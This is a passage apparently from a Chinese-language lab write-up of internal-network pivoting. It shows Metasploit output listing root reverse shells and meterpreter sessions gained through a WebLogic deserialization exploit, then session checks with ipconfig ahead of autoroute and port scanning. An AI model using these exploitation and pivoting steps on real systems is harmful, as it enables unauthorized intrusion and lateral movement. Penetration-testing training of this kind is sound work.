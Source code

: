 ```metasploit

No active jobs.

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60604 (172.29.108.146)
  2         meterpreter x86/linux  root @ 192.171.84.4  192.168.56.107:4433 -> 192.168.56.1:60598 (172.29.108.146)
  3         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60640 (192.171.84.2)
  4         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60630 (192.171.84.3)
  5         shell cmd/unix                              192.168.56.107:4444 -> 192.168.56.1:60574 (192.171.84.5)
  6         meterpreter x86/linux  root @ 192.171.84.2  192.168.56.107:4433 -> 192.168.56.1:60622 (192.171.84.2)
  7         meterpreter x86/linux  root @ 192.171.84.3  192.168.56.107:4433 -> 192.168.56.1:60618 (192.171.84.3)
  8         meterpreter x86/linux  root @ 192.172.85.3  192.168.56.107:4433 -> 192.168.56.1:60638 (192.171.84.5)

msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) >
```

由于已经验证过6号会话并不是拥有双网卡的目标跳板主机，剩下的就是对7号和8号会话进行确认，确认到8号会话没有问题后回到msfconsole执行autoroute的模块添加通过8号会话的路由转发规则，此时就可以直接在msfconsole通过ping_sweep和portscan/tcp来直接进行扫描了：

```metasploit
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 7
[*] Starting interaction with 7...

meterpreter > ipconfig

Interface  1
============
Name         : lo
Hardware MAC : 00:00:00:00:00:00
MTU          : 65536
Flags        : UP,LOOPBACK
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0


Interface 41
============
Name         : eth0
Hardware MAC : 02:42:c0:ab:54:03
MTU          : 1500
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 192.171.84.3
IPv4 Netmask : 255.255.255.0

meterpreter > background
[*] Backgrounding session 7...
msf6 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > sessions -i 8
[*] Starting interaction with 8...

meterpreter > ipconfig
```